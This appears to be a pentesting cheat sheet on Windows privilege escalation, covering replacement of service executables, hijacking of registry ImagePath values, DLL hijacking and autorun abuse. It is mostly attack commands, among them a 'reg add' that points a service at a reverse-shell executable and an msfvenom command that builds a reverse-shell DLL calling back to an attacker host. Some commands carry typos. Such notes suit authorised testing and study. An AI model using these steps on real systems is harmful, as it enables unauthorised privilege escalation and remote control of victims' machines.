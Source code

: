 ### Insecure Service Executables

```bash
#In Winpeas look for a service which has the following
File Permissions: Everyone [AllAccess]
#Replace the executable in the service folder and start the service
sc start <service>
```

### Weak Registry permissions

```bash
#Look for the following in Winpeas services info output
HKLM\system\currentcontrolset\services\<service> (Interactive [FullControl]) #This means we have full access

accesschk /acceptula -uvwqk <path of registry> #Check for KEY_ALL_ACCESS

#Service Information from regedit, identify the variable that holds the executable
reg query <reg-path>

reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
#Imagepath is the variable here

net start <service>
```

## DLL Hijacking

1. Find Missing DLLs using Process Monitor, Identify a specific service that looks suspicious, and add a filter.
2. Check whether you have write permissions in the directory associated with the service.
```bash
# Create a reverse-shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attaker-IP> LPORT=<listening-port> -f dll > filename.dll
```
3. Copy it to the victim machine and then move it to the service-associated directory.(Make sure the dll name is similar to the missing name)
4. Start the listener and restart the service; you'll get a shell.

## Autorun

```powershell
#For checking, it will display some information with file-location
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run

#Check the location is writable
accesschk.exe \accepteula -wvu "<path>" #returns FILE_ALL_ACCESS

#Replace the executable with the reverseshell and we need to wait till Admin logins, then we'll have shell
```
